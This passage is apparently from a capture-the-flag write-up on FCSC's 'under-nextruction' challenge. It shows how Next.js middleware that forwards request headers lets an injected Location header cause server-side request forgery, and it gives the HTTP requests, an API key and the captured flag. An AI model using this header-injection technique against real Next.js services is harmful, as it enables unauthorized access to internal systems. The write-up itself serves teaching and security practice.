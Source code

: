 Response: 
```http
HTTP/2 403 Forbidden
Cookie: session=...;
Host: under-nextruction.fcsc.fr:2213
Test: TEST
[SNIPPED]

{"error":"Must be in preview mode.","timestamp":"2025-04-27T17:03:38.887Z"}
```

This reflection is due to the middleware setup:

```js
if (parsedUrl.pathname.startsWith("/api/")) {
    const requestHeaders = new Headers(request.headers);
    requestHeaders.set("X-User", verifiedSession.username);
    return NextResponse.next({ headers: requestHeaders });
}
```

Although this piece of code initially seems harmless, it introduces a significant security risk: 
By copying all incoming request headers to `NextResponse.next`, there's a duplication of previously processed headers. Such replication can be exploited, particularly with headers already interpreted by the backend, leading to unintended behaviors !

The most potent header injection is using the `Location` header. The `NextResponse.next` attempts to resolve any location specified within the Location header, thus opening a vector for SSRF.

By manipulating the `Location` header, requests can traverse internal networks: 

```
GET /api/user HTTP/2
Host: under-nextruction.fcsc.fr:2213
Cookie: session=...;
Location: http://under-nextruction-flag:5000/get_flag
```

Response: 
```json
[{"error":"Invalid X-Key value provided!"},403]
```

By correctly appending the API key, access to the intended resources is enabled:  
```http
GET /api/user HTTP/2
Host: under-nextruction.fcsc.fr:2213
Cookie: session=...;
Location: http://under-nextruction-flag:5000/get_flag 
X-Key: 8fce97b0137965a3ddd635355eb3b1d249844c814c7981ade10dc201a329b457
```

Successful Flag Retrieval: 
```json
{"flag":"FCSC{b2eac9d3dfbf0de3053beb63edec23df41b103c58a18b811ebd52d372d6f0cad}"}
```

[//]: <> (Wrote By Vozec 27/04/2025)